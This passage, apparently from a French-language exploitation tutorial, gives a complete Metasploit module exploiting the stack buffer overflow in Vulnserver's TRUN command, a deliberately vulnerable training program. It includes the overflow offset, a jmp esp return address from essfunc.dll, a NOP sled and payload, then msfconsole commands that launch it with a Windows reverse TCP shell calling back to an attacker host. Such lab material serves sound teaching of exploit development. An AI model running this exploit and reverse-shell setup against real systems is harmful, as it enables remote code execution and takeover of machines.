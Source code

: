 ```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Vulnserver TRUN Buffer Overflow',
      'Description'    => 'Stack-based buffer overflow in Vulnserver TRUN command',
      'Author'         => ['Vous'],
      'License'        => MSF_LICENSE,
      'Platform'       => 'win',
      'Targets'        => [['Windows XP SP3', { 'Ret' => 0x625011af }]],
      'Payload'        => {'BadChars' => "\x00"},
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Jan 01 2020'))

    register_options([
      Opt::RPORT(9999),
    ])
  end

  def exploit
    connect

    junk = "A" * 2003
    eip = [target['Ret']].pack('V')
    nop = make_nops(16)
    payload_final = junk + eip + nop + payload.encoded

    sock.put("TRUN /.:/" + payload_final)
    disconnect
  end
end
```

💡 L’adresse `0x625011af` est un `jmp esp` trouvé dans `essfunc.dll` de vulnserver (via Mona sous Immunity Debugger).

---

## 6. Lancer et tester l’exploit

Dans Metasploit :

```bash
msfconsole
reload_all
use exploit/windows/vulnserver/vulnserver_trun
set RHOST 192.168.56.101
set LHOST 192.168.56.1
set PAYLOAD windows/shell_reverse_tcp
set LPORT 4444
exploit
```

